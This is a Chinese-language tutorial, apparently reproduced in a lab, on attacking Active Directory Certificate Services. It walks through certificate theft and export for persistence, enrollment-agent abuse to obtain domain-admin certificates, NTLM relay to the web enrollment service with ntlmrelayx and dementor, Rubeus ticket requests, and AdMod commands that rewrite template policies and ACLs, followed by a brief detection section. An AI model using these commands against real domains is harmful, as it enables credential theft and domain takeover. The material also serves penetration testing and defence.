



## 0x01 概述

Active Directory 证书服务(AD CS)是微软对公开密钥基础建设(PKI)的实现。通过创建一个证书机构CA来管理其公钥基础设施PKI，以提供证书服务。CA通过发布证书来确认用户公钥和其他属性的绑定关系，以提供对用户身份的证明。

## 0x02 环境搭建

本地测试环境直接在域控安装CS即可





## 0x03 AD CS攻击手法复现


### 1.前置知识

- 证书模版

  CS服务使用证书模版来管理要颁发的证书，内容包括模版名、证书有效期、证书目的、是否允许导出私钥以及该模版的权限。客户端和 CA 使用证书模板来确定如何填充证书请求中的字段以及生成的证书。通常在使用 AD 集成 CA 的任何组织中都有几个已发布的证书。在证书模板控制台可以看到现有的模板和添加模板

  ​	

  

  

  spectorops的白皮书提到，证书中包含客户端认证、PKINIT 客户端身份验证、智能卡登录、任何目的、子CA这五个扩展的的证书可以进行kerberos认证。也就是说得到包含这些扩展的证书，就可以用证书代替ntlm hash来作为身份认证的凭据。

  

  **安全**属性标志哪些用户对这个证书模板有注册、读取、写入权限。可以看到，在**默认**的**用户模板**中，对域内所有用户，都有注册权限。如果某个用户对证书模板有写入权限，那么这个用户可以改写证书模板。要新建证书模板，选中一个模板复制，再根据所需更改模板内容即可。


### 2.利用证书作为权限维持

- ADCS默认的用户模板，域内所有用户的都有注册权限，且模板包含客户端认证扩展，证书有效期一年。这意味着只要拿到域用户的证书，就可以在一年内使用证书去做kerberos认证，申请tgt、查看ntlm hash，从而获得该用户权限。在获得机器权限的情况下，可以重点关注文件系统是否保存有key、pfx、pem、p12后缀的证书。也可以使用certutil、certmgr.msc查看当前用户或者计算机的证书，再将其导出。

  certutil查看用户证书：

  

  导出包含私钥的证书：

  

  certmgr导出

  

  

  和certutil一样，需要给证书一个密码。

  如果机器上没有证书，则可以利用ADCS用户模板去申请注册一个证书。可以使用ADCS的web注册服务申请，也可以使用certmgr申请

  web注册服务地址 http://ADCS/certsrv，需要域用户认证

  

  certmgr申请

!

如果证书模板设置了不可导出密钥，可以使用mimikatz从dpapi中把密钥导出。得到证书之后，使用rubes申请tgt

​		

​	使用kekeo申请NTLM，需要将证书导入到机器中，再申请ntlm hash

​		

​	默认用户模板生成的证书有效期为一年，在有效期内用户更改了密码，证书依然会生效。

- ADCS中，可以设置注册代理，使得A用户可以代理B用户注册证书。当拥有ADCS管理权限之后，可以设置注册代理，让用户A的可以代理域管注册证书。

  首先，设置CA允许代理注册

  

  在证书模版里设置注册代理模板权限，使得域内任意用户可以注册，并且发布模板

  

在证书颁发机构-证书模板-新建-要颁发的证书模板，选择注册代理。然后重启证书服务，完成注册代理模板的发布


域内任意用户申请注册代理证书


申请成功后利用改证书为域管理员申请用户证书


选择上一步申请的注册代理证书。（注：默认的注册代理模板不能导出私钥，所以导出的注册代理证书不能到其他机器上导入再为其他用户申请。如有需求，可在证书模板复制注册代理证书模板，自定义是更改之后发布，再申请证书导出即可）


申请完成后，导出证书，使用Rubeus就可以申请tgt了


### 3.ntlm中继攻击ADCS

ADCS安装是可选择开放web服务供用户验证后注册证书。该web服务可采用ntlm relay攻击，使用打印机、efs强制域内主机到ntlmrelayx身份验证，继而中继到ADCS服务器申请证书。申请得到的base64编码格式的证书可配合Rubes做票据传递攻击

工具地址：[ntlmrelayx-adcs-attack](https://github.com/ExAndroidDev/impacket/tree/ntlmrelayx-adcs-attack)

开启监听并relay到adcs的wb服务

```
python3 ntlmrelayx.py -t http://192.168.2.123/certsrv/certfnsh.asp -smb2support --adcs --smb-port 445
```

强制机器身份验证

```
python3 dementor.py relay-listen-ip target-ip -u domain-user -p password -d domain
```


使用rubeus进行ptt

```
Rubeus.exe asktgt /user:机器账户 /certificate:<base64-certificate> /ptt
```


### 4.攻击证书模板

工具[ADCS](https://github.com/cfalta/PoshADCS)、[powerview](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1)

证书模板信息存储在LDAP中

```
CN=Public Key Services,CN=Services,CN=Configuration,DC=cate4cafe,DC=com
```

当拥有模板的写权限，则可以通过修改LDAP来改变模板的配置，比如修改模板的扩展中的应用程序策略内容，添加基于证书的身份验证的策略。这些策略在windows中以OID表示。specterops研究发现以下OID提供证书身份验证

|      应用程序策略      |          OID           |
| :--------------------: | :--------------------: |
|       客户端认证       |   1.3.6.1.5.5.7.3.2    |
|       智能卡登录       | 1.3.6.1.4.1.311.20.2.2 |
|        任何目的        |      2.5.29.37.0       |
|          子CA          |                        |
| PKINIT客户端身份在验证 |    1.3.6.1.5.2.3.4     |

在模板中添加这些策略，将使得通过模板申请的证书具有身份验证功能。在CA开启注册代理下，添加证书申请代理(1.3.6.1.4.1.311.20.2.1)，则证书可以代理其他用户申请证书。

查询已发布模板

```
Get-EnterpriseCA |Select-Object -ExpandProperty certificatetemplates
```


查看模板ACL

```
Get-ADCSTemplateACL -Name demo |ft AceQualifier,ActiveDirectoryRights,Identity
```


为模板添加**证书申请代理**策略


以此模板申请的证书具备证书申请代理功能


## 0x04 漏洞检测

检测工具：[PSPKIAudit](https://github.com/GhostPack/PSPKIAudit)

```
Invoke-PKIAudit WIN-BLA6KEJV6V7.cate4cafe.com
```


AdFind.exe -b "CN=Public Key Services,CN=Services,CN=Configuration,DC=cate4cafe,DC=com" -f "(&(objectCategory=pKICertificateTemplate)(name=demo))" nTSecurityDescriptor -sddl+++


AdMod.exe -b "CN=demo,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=cate4cafe,DC=com" "msPKI-Certificate-Application-Policy:+:1.3.6.1.4.1.311.20.2.1"


AdFind.exe -b "CN=Certificate-Enrollment,CN=Extended-Rights,CN=Configuration,DC=cate4cafe,DC=com" rightsGuid


AdMod.exe -b "CN=demo,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=cate4cafe,DC=com" "SD##ntsecuritydescriptor::{GETSD}{+D=(OA;;RPWPCR;{0E10C968-78FB-11D2-90D4-00C04F79DC55};;S-1-5-21-3284978234-2998566004-1643192661-1104)}"
